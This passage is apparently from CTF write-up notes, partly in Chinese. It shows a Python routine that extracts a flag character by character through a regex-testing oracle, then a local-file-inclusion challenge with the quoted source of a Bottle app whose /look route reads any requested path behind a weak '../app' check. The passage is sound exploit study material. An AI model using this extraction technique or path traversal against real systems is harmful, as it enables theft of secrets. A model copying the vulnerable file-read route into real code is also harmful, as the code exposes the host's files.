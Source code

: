 		  def guess_from(known):
		      while True:
		          print(known)
		          start, stop = char_type(known)
		          if start is None or stop is None:
		              break
		          l, r = start, stop
		          while r - l > 0:
		              mid = (l + r) // 2
		              # print(f"guess_from: {l=} {r=}")
		              char_regexp = f"[{chr(l)}-{chr(mid)}]" if mid - l else chr(mid)
		              if test(known + char_regexp):
		                  r = mid
		              else:
		                  l = mid + 1
		          if test(known + chr(l)):
		              known += chr(l)
		          else:
		              break
		  
		      return known
		  
		  guess_from("fla")
		  
		  ```
- # JUST_LFI
  id:: 644b83b7-1c5b-4abb-9329-42c4f0b7fa44
	- 使用lfi可以看到下面的两个源码
	- `/app/app.py`源码
		- ```python
		  from bottle import route, run, template, request, response, error
		  from config.secret import key
		  import os
		  import re
		  
		  
		  @route("/")
		  def home():
		      return template("index")
		  
		  
		  @route("/look")
		  def index():
		      response.content_type = "text/plain; charset=UTF-8"
		      param = request.query.file
		      if re.search("^../app", param):
		          return "大咩大咩！！！"
		      req_path = os.path.join(os.getcwd() + "/look", param)
		      try:
		          with open(req_path) as f:
		              fi = f.read()
		      except Exception as e:
		          return "Wuhu"
		      return fi
		  
